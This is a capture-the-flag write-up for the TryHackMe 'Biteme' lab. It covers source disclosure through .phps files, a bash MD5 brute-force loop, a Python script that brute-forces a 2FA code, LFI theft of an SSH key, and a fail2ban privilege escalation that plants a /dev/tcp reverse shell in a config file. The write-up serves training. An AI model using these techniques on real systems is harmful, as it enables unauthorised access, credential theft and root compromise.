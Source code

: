 # Biteme: 

![Contest Date: 12.03.2022](https://img.shields.io/badge/Contest%20Date-12.10.2022-lightgrey.svg)

## Description

### Tryhackme Medium Room

## Summary

The initial scan shows 2 ports opened: 22,80.
The web server has an 'console' endpoint which is a login page ( which is protected with secureimage for bruteforcing ). 
Looking for the source this caught my attention:

```javascript

 function handleSubmit() {
        eval(function(p,a,c,k,e,r){e=function(c){return c.toString(a)};if(!''.replace(/^/,String)){while(c--)r[e(c)]=k[c]||e(c);k=[function(e){return r[e]}];e=function(){return'\\w+'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('0.1(\'2\').3=\'4\';5.6(\'@7 8 9 a b c d e f g h i... j\');',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,{}))
        return true;
      }

```

The message can be understood as it is, but it can also be unpacked to be more readable.

Which can be unpacked using <a href="https://matthewfl.com/unPacker.html">Unpacker</a> to :

```javascript

 function handleSubmit() 
	{
	        eval(function(p,a,c,k,e,r)
		{
		e=function(c)
			{
			return c.toString(a)
		};
		if(!''.replace(/^/,String))
			{
			while(c--)r[e(c)]=k[c]||e(c);
			k=[function(e)
				{
				return r[e]
			}
			];
			e=function()
				{
				return'\\w+'
			};
			c=1
		};
		while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);
		return p
	}
	('0.1(\'2\').3=\'4\';
	5.6(\'@7 8 9 a b c d e f g h i... j\');
	',20,20,'document|getElementById|clicked|value|yes|console|log|fred|I|turned|on|php|file|syntax|highlighting|for|you|to|review|jason'.split('|'),0,
		{
	}
	))
	        return true;
	      
}
```


Anyway, the function can also be called in the console of the page, and it logs the message : 

```
@fred I turned on php file syntax highlighting for you to review... jason
```

Which made me search for <a href="https://www.php.net/manual/en/function.highlight-file.php">highlight_file</a> and found this:

```

Many servers are configured to automatically highlight files with a phps extension. For example, example.phps when viewed will show the syntax highlighted source of the file.

```

Using this we can read the source code of the page by going to `http://<ip>/console/index.phps`

This file includes `functions.php` which is used for authentication and can also be read using the same trick `(functions.phps)`.

This file reveals that the hash used for comparison should end in `001` and used a bash command to bruteforce it.

```bash
while IFS= read -r line; do printf '%s' "$line" |md5sum | awk '{print $1}' | grep -E "001$" && echo $line && break ; done < /usr/share/wordlists/rockyou.txt
```
Now we just need a user.

This again reveals other file , `config.php` , which has the source code also readable , and we find the user encoded in hex.

We decode it and get creds to log in.

After logging in, we now need to brute-force the 2FA code, as we see we have unlimited tries.
Created my script for it:
```python3

import requests

s = requests.Session()

cookies = {'PHPSESSID': '<cookie>','user':'<decoded_user>','pwd':'<found_pass>'}
s.headers.update({'Content-Type': 'application/x-www-form-urlencoded'})


for i in range(9999,5000,-1):
        a = '{:d}'.format(i).zfill(4)
        print(a,end='\r')
        r = s.post('http://<ip>/console/mfa.php',cookies=cookies,data='code={}'.format(a))
        if 'Incorrect code' not in r.text:
                #print(r.text)
                print('[+] Found the code: {}'.format(a))
                break

```

After getting a valid code, we now have lfi, using this to get the /ssh/id_rsa file of jason user which has a passphrase.
Using ss2john, and then using john with rockyou.txt we get the passphrase.

## Privesc 

By running `sudo -l` as user `jason` , we can impersonate user `fred` , which can also restart the `fail2ban` service on the machine.

Running 
```bash
find / -user fred 2>/dev/null
```
we find a file writable by fred, `/etc/fail2ban/action.d/iptables-multiport.conf`

Using this blog regarding <a href="https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/">fail2ban privesc</a>.
After replacing the `banaction` with our reverse shell `bash -c "bash -i >& /dev/tcp/<ip>/<port> 0>&1",
we have to restart the service, which user fred can do by running `sudo /bin/systemctl restart fail2ban`.
all we have to do now is to trigger the ban action. 
After reading the config file `/etc/fail2ban/jail.local` we see that it is triggered after 3 retries.

Now what's left for us to do is to try to log in using ssh and establish 3 sessions in wich we enter a wrong pass, after that we get the shell as root.
